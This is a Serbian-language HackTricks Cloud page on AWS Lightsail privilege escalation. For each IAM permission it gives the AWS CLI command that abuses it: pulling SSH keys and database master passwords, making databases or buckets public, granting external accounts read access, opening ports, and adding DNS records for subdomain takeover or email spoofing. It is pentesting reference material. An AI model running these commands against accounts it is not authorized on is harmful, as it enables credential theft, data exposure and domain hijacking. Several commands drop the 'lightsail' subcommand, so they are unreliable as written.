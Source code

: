 # AWS - Privilegije eskalacije u okviru Lightsail-a

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Lightsail

Za više informacija o Lightsail-u pogledajte:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Važno je napomenuti da Lightsail **ne koristi IAM uloge koje pripadaju korisniku**, već AWS upravljani nalog, tako da ne možete zloupotrebiti ovu uslugu za eskalaciju privilegija. Međutim, **osetljivi podaci** kao što su kod, API ključevi i informacije o bazi podataka mogu se pronaći u ovoj usluzi.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ova dozvola će vam omogućiti da dobijete SSH ključeve za pristup instancama:
```
aws lightsail download-default-key-pair
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar instanci.

### `lightsail:GetInstanceAccessDetails`

Ova dozvola će vam omogućiti generisanje SSH ključeva za pristup instancama:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar instanci.

### `lightsail:CreateBucketAccessKey`

Ova dozvola će vam omogućiti da dobijete ključ za pristup korpi:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar korpe.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ova dozvola će vam omogućiti da dobijete pristupne podatke za pristup bazi podataka:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar baze podataka.

### `lightsail:UpdateRelationalDatabase`

Ova dozvola će vam omogućiti da promenite lozinku za pristup bazi podataka:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Ako baza podataka nije javna, takođe je možete učiniti javnom sa ovim dozvolama pomoću

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar baze podataka.

### `lightsail:OpenInstancePublicPorts`

Ova dozvola omogućava otvaranje portova ka internetu.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:PutInstancePublicPorts`

Ova dozvola omogućava otvaranje portova ka internetu. Napomena: poziv će zatvoriti sve portove koji nisu navedeni u njemu.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:SetResourceAccessForBucket`

Ova dozvola omogućava dodeljivanje pristupa instanci korisničkom sandučetu bez dodatnih akreditacija.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% code %}

**Potencijalni uticaj:** Potencijalni novi pristup kantama sa osetljivim informacijama.

### `lightsail:UpdateBucket`

Sa ovom dozvolom napadač bi mogao da dodeli svoj AWS nalog pristup za čitanje kanti ili čak da učini kante javnim za sve:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potencijalni uticaj:** Potencijalni novi pristup kantama sa osetljivim informacijama.

### `lightsail:UpdateContainerService`

Sa ovim dozvolama napadač bi mogao omogućiti pristup privatnim ECR-ima iz usluge kontejnera.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencijalni uticaj:** Dobijanje osetljivih informacija iz privatnog ECR-a

### `lightsail:CreateDomainEntry`

Napadač sa ovlašćenjem može kreirati poddomen i usmeriti ga ka svojoj IP adresi (preuzimanje poddomena), ili kreirati SPF zapis koji mu omogućava da lažira e-poštu sa domena, ili čak postaviti glavni domen na svoju IP adresu.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencijalni uticaj:** Preuzimanje domena

### `lightsail:UpdateDomainEntry`

Napadač sa ovlašćenjem može kreirati poddomen i usmeriti ga ka svojoj IP adresi (preuzimanje poddomena), ili kreirati SPF zapis koji mu omogućava da lažira e-poštu sa domena, ili čak postaviti glavni domen na svoju IP adresu.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencijalni uticaj:** Preuzimanje domena

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
